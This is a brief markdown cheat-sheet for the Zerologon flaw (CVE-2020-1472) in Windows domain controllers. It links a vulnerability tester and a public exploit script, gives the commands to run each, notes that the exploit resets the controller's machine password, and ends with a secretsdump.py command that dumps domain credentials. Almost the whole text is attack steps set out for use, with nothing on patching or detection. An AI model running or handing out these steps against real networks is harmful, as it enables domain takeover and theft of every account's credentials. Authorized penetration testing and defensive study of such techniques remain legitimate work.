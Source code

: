 # Check if the DC is vulnerable

https://github.com/SecuraBV/CVE-2020-1472/blob/master/zerologon_tester.py

```bash
python3 zerologon_tester.py <dc-computer> <dc-ip>
```

# Exploit the vulnerability

https://github.com/dirkjanm/CVE-2020-1472/blob/master/cve-2020-1472-exploit.py

```bash
python3 cve-2020-1472-exploit.py <dc-name> <dc-ip>
```
This exploit should reset the password.

Test if the exploit was successful:
```bash
secretsdump.py -just-dc <ad-domain>/<dc-name>\$@<dc-ip>
```
